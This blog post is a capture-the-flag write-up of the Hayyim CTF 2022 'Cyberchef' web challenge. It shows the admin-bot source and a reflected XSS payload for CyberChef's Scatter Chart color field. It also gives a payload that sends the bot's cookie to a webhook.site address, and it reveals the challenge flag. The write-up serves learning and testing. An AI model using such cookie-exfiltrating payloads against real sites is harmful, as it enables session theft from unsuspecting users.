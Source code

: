 ```yaml
---
layout: post
title:  "Hayyim CTF 2022 Cyberchef Writeup"
tags: CTF
---
```



## Web - Cyberchef

>The Cyber Swiss Army Knife.
>
>Flag Format: hsctf{…}

[![Cyberchef](/assets/HCTF/cyber1.png)](/assets/HCTF/cyber1.png)
<figcaption align=center><b>Figure 1: Cyberchef</b></figcaption>
&nbsp;

For this web challenge, we are greeted by a familiar face, Cyberchef.
Alongside an instance for one of my favorite tools, we get a copy to
some source code for an admin-bot.

```javascript
const webdriver = require('selenium-webdriver');
const capabilities = webdriver.Capabilities.chrome();

const flag = require('fs').readFileSync('/flag').toString().trim();

const rateLimit = 30 * 1000;
const pageTimeout = 3 * 1000;
const urlPrefix = 'http://cyberchef:8000/';

const timestamps = new Map();

const sleep = (ms) => {
  return new Promise((resolve) => {
    setTimeout(() => resolve(), ms);
  });
};

const checkRateLimit = (key) => {
  const now = Date.now();

  if (timestamps.has(key) && timestamps.get(key) > now - rateLimit) {
    return false;
  }

  timestamps.set(key, now);
  return true;
};

const checkUrl = (url) => {
  return !(typeof url !== 'string' || !url.startsWith(urlPrefix) || url.length > 1024);
};

const visitUrl = (url) => {
  return new Promise(async (resolve) => {
    const driver = new webdriver.Builder('chrome')
      .usingServer('http://selenium:4444/wd/hub/')
      .withCapabilities(capabilities)
      .build();

    await driver.get(urlPrefix);

    await driver.manage().addCookie({
      name: 'flag',
      value: flag
    });

    await driver.manage().setTimeouts({
      implicit: pageTimeout,
      pageLoad: pageTimeout,
      script: pageTimeout
    });

    await driver.get(url);
    await sleep(pageTimeout);
    await driver.quit();

    resolve();
  });
};

module.exports = {
  checkRateLimit,
  checkUrl,
  visitUrl
};
```

The source code reveals the goal for this challenge. Much like
other similar admin-bot-style challenges, we have to steal the admin's
cookie. Supplying the admin-bot with a malicious link containing XSS
is the most straight forward way to steal this cookie. However, the
admin-bot has a single simple countermeasure

```javascript
const urlPrefix = 'http://cyberchef:8000/';

...

const checkUrl = (url) => {
  return !(typeof url !== 'string' || !url.startsWith(urlPrefix) || url.length > 1024);
};
```

The bot will only accept links originating from the Cyberchef instance
URL. This means we can't send the bot just any malicious link to steal
the cookie. Our payload has to make use of the Cyberchef instance
somehow.

[![Github Issue](/assets/HCTF/cyber2.png)](/assets/HCTF/cyber2.png)
<figcaption align=center><b>Figure 2: Cyberchef GitHub Open XSS Issues</b></figcaption>
&nbsp;

After trying a few simple XSS ideas, I searched for Cyberchef specific
XSS vulnerabilities. **Figure 2** shows the list of issues for
Cyberchef version 9.3.4 on GitHub filtered down to XSS topics.
The only relevant issue includes exactly what we are looking for, an
XSS vulnerability in the "Scatter Chart" tool. You can find the full details [here](https://github.com/gchq/CyberChef/issues/1265)
but as for the very basics of the vulnerability, we can use the color field of
the scatter chart to smuggle an XSS payload.

```
red"><script>alert("XSS")</script>
```

When the payload above is inserted into the color field it will create a reflected
XSS attack on whoever opens the link.

[![Reflected](/assets/HCTF/cyber3.png)](/assets/HCTF/cyber3.png)
<figcaption align=center><b>Figure 3: Cyberchef Reflected XSS Proof of Concept</b></figcaption>
&nbsp;

Next using a combination of https://webhook.site/ and the following payload, we
can create a link to send the admin-bot and steal its cookie.

```
red"><script>document.write('<img src=x onerror=this.src="https://webhook.site/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx?c="+document.cookie;>');</script>
```

Upon submitting the link to the admin-bot, webhook.site will graciously reveal
the bot's cookie, which, is also the flag.

>hsctf{fa98fe3d32b4302aff1c322c925238a9d935b636f265cbfdd798391ca9c5a905}
